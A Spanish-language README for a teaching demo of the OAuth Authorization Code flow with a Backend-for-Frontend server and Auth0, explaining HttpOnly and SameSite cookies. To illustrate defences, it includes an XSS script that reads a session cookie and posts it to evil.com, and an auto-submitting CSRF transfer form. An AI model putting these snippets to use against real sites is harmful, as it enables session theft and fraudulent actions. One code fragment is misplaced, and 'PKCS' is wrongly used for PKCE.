


# Authorization Code (BFF)

## Objetivo

Proveer una demo práctica del flujo Authorization Code para clientes confidenciales siguiendo el patrón Backend-for-Frontend (BFF). El BFF realiza el intercambio de código por tokens, guarda la sesión en cookie HttpOnly y actúa como proxy hacia la API protegida.

## Diagrama de secuencia



## Cómo se ejecuta

1. Configurar Auth0 según "Pasos en Auth0" más abajo.
2. Backend:

```bash
cd authorization-code/backend
cp .env.example .env
npm install
npm run dev   # backend en http://localhost:4000
```

3. Frontend:

```bash
cd authorization-code/frontend
cp .env.example .env
npm install
npm run dev   # frontend en http://localhost:5173
```

## Teoría

### Fundamentos del Authorization Code Flow

El Authorization Code Flow es considerado el **estándar de oro** para aplicaciones web que ejecutan en un servidor (aplicaciones confidenciales). Su diseño de dos pasos proporciona la máxima seguridad:

**¿Por qué es más seguro?**
- **Separación de canales**: El authorization code viaja por el canal frontal (navegador), pero el intercambio por tokens ocurre en el canal trasero (servidor a servidor)
- **Client authentication**: El servidor puede autenticarse usando `client_secret`, algo imposible en SPAs
- **Tokens nunca expuestos**: Los access tokens nunca llegan al navegador, eliminando vectores de ataque XSS

### Patrón Backend-for-Frontend (BFF)

**¿Qué resuelve el BFF?**
- **Token management**: El servidor maneja todos los tokens en memoria/base de datos
- **Session management**: Cookies HttpOnly + SameSite eliminan riesgos de XSS/CSRF (ver explicación detallada abajo)
- **API aggregation**: Un solo punto para múltiples APIs, simplificando el frontend
- **Security policies**: Implementación centralizada de headers, rate limiting, etc.

### Cookies Seguras: HttpOnly y SameSite

#### 🍪 Atributo HttpOnly

**¿Qué hace HttpOnly?**
- **Bloquea acceso desde JavaScript**: Las cookies marcadas con `HttpOnly` NO pueden ser leídas por `document.cookie`
- **Solo HTTP/HTTPS**: La cookie solo se envía en requests HTTP, no está disponible para scripts del lado cliente

**Ejemplo de configuración:**
```javascript
// ❌ Cookie vulnerable a XSS
res.cookie('session_id', 'abc123', {
  secure: true,
  maxAge: 3600000
});

// ✅ Cookie protegida contra XSS
res.cookie('session_id', 'abc123', {
  httpOnly: true,    // 🛡️ No accesible via JavaScript
  secure: true,      // 🔒 Solo HTTPS
  maxAge: 3600000
});
```

**Protección contra XSS:**
```html
<!-- Ataque XSS típico -->
<script>
  // ❌ Con cookies normales esto funciona
  const sessionId = document.cookie
    .split('; ')
    .find(row => row.startsWith('session_id='))
    ?.split('=')[1];
  
  // Enviar session_id al atacante
  fetch('https://evil.com/steal', {
    method: 'POST',
    body: JSON.stringify({token: sessionId})
  });
  
  // ✅ Con HttpOnly esto devuelve undefined
  console.log(sessionId); // undefined - no puede leer la cookie
</script>
```

#### 🔒 Atributo SameSite

**¿Qué hace SameSite?**
- **Controla cuando se envían cookies** en requests cross-site
- **Previene CSRF** limitando el envío automático de cookies

**Valores de SameSite:**

| Valor | Comportamiento | Cuándo usar |
|-------|----------------|-------------|
| **Strict** | Cookie SOLO se envía en requests same-site | Máxima seguridad, puede afectar UX |
| **Lax** | Cookie se envía en navegación top-level (links) | Balance entre seguridad y usabilidad |
| **None** | Cookie se envía en todos los requests | Solo con `Secure=true`, para iframes |

**Ejemplo de configuración:**
```javascript
// ✅ Configuración segura completa
res.cookie('session_id', 'abc123', {
  httpOnly: true,        // 🛡️ Protege contra XSS
  secure: true,          // 🔒 Solo HTTPS
  sameSite: 'Lax',      // 🚫 Protege contra CSRF
  maxAge: 3600000,       // ⏰ 1 hora
  path: '/',             // 📍 Toda la aplicación
  domain: '.myapp.com'   // 🌐 Subdominios permitidos
});
```

#### 🔴 Ataques CSRF y cómo SameSite los previene

**Ataque CSRF tradicional:**
```html
<!-- En sitio malicioso evil.com -->
<form action="https://mybank.com/transfer" method="POST">
  <input type="hidden" name="to" value="attacker_account">
  <input type="hidden" name="amount" value="10000">
  <input type="submit" value="Click here for free money!">
</form>

<script>
  // ❌ Sin SameSite: la cookie de sesión se envía automáticamente
  document.forms[0].submit();
  // La transferencia se ejecuta con la sesión del usuario legítimo
</script>
```

**Protección con SameSite:**
```javascript
// ✅ Con SameSite=Lax o Strict
res.cookie('session_id', 'abc123', {
  httpOnly: true,
  sameSite: 'Lax'  // 🛡️ Cookie NO se envía desde evil.com
});

// Resultado: La transferencia falla porque no hay cookie de sesión
// Status: 401 Unauthorized - No valid session
```

#### 🔄 Flujo BFF con Cookies Seguras

```mermaid
sequenceDiagram
    participant User as 👤 Usuario
    participant Browser as 🌐 Navegador
    participant BFF as 🛡️ BFF Server
    participant Auth0 as 🔐 Auth0
    participant API as 🏗️ Resource API
    
    Note over Browser,BFF: 1. Login Flow
    User->>Browser: Click "Login"
    Browser->>BFF: GET /login
    BFF->>Auth0: Redirect to /authorize
    Auth0->>Browser: Redirect con authorization code
    Browser->>BFF: GET /callback?code=xyz
    BFF->>Auth0: POST /token (code + client_secret)
    Auth0->>BFF: Access token + ID token
    
    Note over BFF,Browser: 2. Session Creation
    BFF->>BFF: Almacenar tokens en memoria/DB
    BFF->>Browser: Set-Cookie: session_id=abc123;<br/>HttpOnly; Secure; SameSite=Lax
    
    Note over Browser,API: 3. API Calls
    Browser->>BFF: GET /api/users<br/>Cookie: session_id=abc123
    BFF->>BFF: Validar sesión + obtener access_token
    BFF->>API: GET /users<br/>Authorization: Bearer {access_token}
    API->>BFF: User data
    BFF->>Browser: User data (JSON)
    
    Note over Browser,BFF: 4. XSS Protection
    Browser->>Browser: 🕵️ Script malicioso intenta:<br/>document.cookie
    Browser->>Browser: ❌ Resultado: "" (HttpOnly bloquea acceso)
    
    Note over Browser,BFF: 5. CSRF Protection  
    Browser->>Browser: 🕵️ Form desde evil.com intenta:<br/>POST /api/transfer
    Browser->>BFF: ❌ Request SIN cookie (SameSite bloquea)
    BFF->>Browser: 401 Unauthorized
```

#### 💡 Comparación: Tokens en LocalStorage vs Cookies Seguras

| Aspecto | localStorage + JWT | HttpOnly Cookies |
|---------|-------------------|------------------|
| **XSS Protection** | ❌ Accesible via JavaScript | ✅ HttpOnly bloquea acceso |
| **CSRF Protection** | ✅ Manual (headers CSRF token) | ✅ Automático con SameSite |
| **Simplicidad** | 🔶 Requiere manejo manual | ✅ Manejo automático del browser |
| **Token exposure** | ❌ Visible en DevTools | ✅ No visible desde cliente |
| **Cross-domain** | ✅ Flexible | 🔶 Requiere configuración |
| **Mobile apps** | ✅ Funciona bien | 🔶 Limitado en WebViews |

#### 🛠️ Implementación Práctica

**Backend (Express.js):**
```javascript
const express = require('express');
const session = require('express-session');
const app = express();

// Configuración de sesión segura
app.use(session({
  secret: process.env.SESSION_SECRET,
  name: 'sessionId',  // No usar nombres obvios como 'connect.sid'
  cookie: {
    httpOnly: true,    // 🛡️ No accesible via JavaScript
    secure: true,      // 🔒 Solo HTTPS en producción
    sameSite: 'Lax',   // 🚫 Protección CSRF
    maxAge: 3600000,   // ⏰ 1 hora
    domain: process.env.COOKIE_DOMAIN  // 🌐 Control de dominio
  },
  resave: false,
  saveUninitialized: false
}));

// Middleware de autenticación
function requireAuth(req, res, next) {
  if (!req.session.tokens) {
    return res.status(401).json({ error: 'Authentication required' });
  }
  next();
}
```

#### 🧪 **¿Qué verás en Chrome DevTools? - `connect.sid` Explicado**

Cuando ejecutes este ejemplo y abras **Chrome DevTools** (F12 → Application → Cookies), verás una cookie llamada `connect.sid`. **Esto es NORMAL y SEGURO**.

**¿Qué es `connect.sid`?**
- Es la **cookie de sesión automática** que crea Express.js
- Contiene un **identificador de sesión**, NO los tokens OAuth
- Los tokens reales están seguros en el servidor

**Estructura de `connect.sid`:**
```javascript
// Lo que ves en DevTools:
connect.sid = s%3Aabcd1234-5678-9012-3456-789abcdef012.hash

// Decodificado:
├── s%3A = URL encoding de "s:" (session prefix)
├── abcd1234-5678-9012-3456-789abcdef012 = Session ID único
└── hash = Firma HMAC para prevenir tampering
```

**✅ Verificar que está configurado correctamente:**

| Atributo en DevTools | Valor Esperado | Significado |
|---------------------|----------------|-------------|
| **HttpOnly** | ✅ true | No accesible desde JavaScript |
| **Secure** | ✅ true (en HTTPS) | Solo se envía por HTTPS |
| **SameSite** | Lax o Strict | Protección contra CSRF |
| **Domain** | localhost | Limitado al dominio |
| **Path** | / | Disponible en toda la app |

**🧪 Prueba de Seguridad:**
```javascript
// Ejecutar en la consola del navegador:
console.log('Cookies accesibles:', document.cookie);
// ❌ connect.sid NO debe aparecer en el resultado
// ✅ Si no aparece = configuración correcta

// Para verificar que existe:
// F12 → Application → Cookies → localhost:4000
// Ahí SÍ verás connect.sid con HttpOnly=true
```

**🔄 Flujo de Sesión con `connect.sid`:**


**❓ FAQ sobre `connect.sid`:**

| Pregunta | Respuesta |
|----------|-----------|
| **¿Es seguro ver `connect.sid`?** | ✅ Sí, es solo un identificador de sesión |
| **¿Contiene mi access token?** | ❌ No, los tokens están en el servidor |
| **¿Puede un XSS robar `connect.sid`?** | ❌ No, está protegido por HttpOnly |
| **¿Debo preocuparme por esto?** | ❌ No, es el comportamiento estándar |
| **¿Puedo cambiar el nombre?** | ✅ Sí, usar `name: 'mi-sesion'` en config |

// Endpoint protegido
app.get('/api/profile', requireAuth, (req, res) => {
  res.json({user: req.session.user});
});
```

**Headers de respuesta resultantes:**
```http
HTTP/1.1 200 OK
Set-Cookie: sessionId=abc123; Path=/; HttpOnly; Secure; SameSite=Lax; Max-Age=3600
Content-Type: application/json
X-Content-Type-Options: nosniff
X-Frame-Options: DENY
```

### Elementos de Seguridad Críticos

**State Parameter**
- Previene ataques CSRF al validar que la respuesta corresponde a la petición original
- Debe ser un valor único, impredecible y vinculado a la sesión

**Nonce Parameter** 
- Incluido en el ID Token, previene ataques de replay
- Vincula el token a la sesión específica del cliente

**PKCS (Public Key Cryptography Standards)**
- Aunque PKCE es para clientes públicos, el Authorization Code usa principios similares
- El `client_secret` actúa como "proof of possession" del cliente

### Validación de Tokens en Resource Server

**Verificaciones obligatorias:**
1. **Firma (RS256)**: Verificar con clave pública del proveedor de identidad
2. **Issuer (`iss`)**: Confirmar que viene del proveedor esperado  
3. **Audience (`aud`)**: Verificar que el token es para esta API específica
4. **Expiration (`exp`)**: Rechazar tokens vencidos
5. **Scopes**: Verificar permisos específicos para el endpoint solicitado

### Consideraciones de Producción

**Gestión de Sesiones:**
- Implementar timeout de sesión inactiva
- Refresh token rotation para sesiones de larga duración
- Logout centralizado que invalide tokens en el proveedor

**Monitoreo y Auditoría:**
- Log de todos los intercambios de tokens
- Detección de patrones anómalos de uso
- Alertas por intentos de acceso no autorizados

## Pasos en Auth0

1. Crear una API (identifier/audience) p.ej. `https://students-api` y añadir scope `read:students`.
2. Crear una Application tipo "Regular Web Application" y configurar Allowed Callback/Logout URLs (ej. `http://localhost:4000/callback`) y Allowed Web Origins.
3. 3. Conceder los scopes necesarios y copiar Domain, Client ID y Client Secret al `.env` del backend.

## Notas

- Este README es educativo. En producción completar con políticas de sesión, rotating secrets y auditoría.

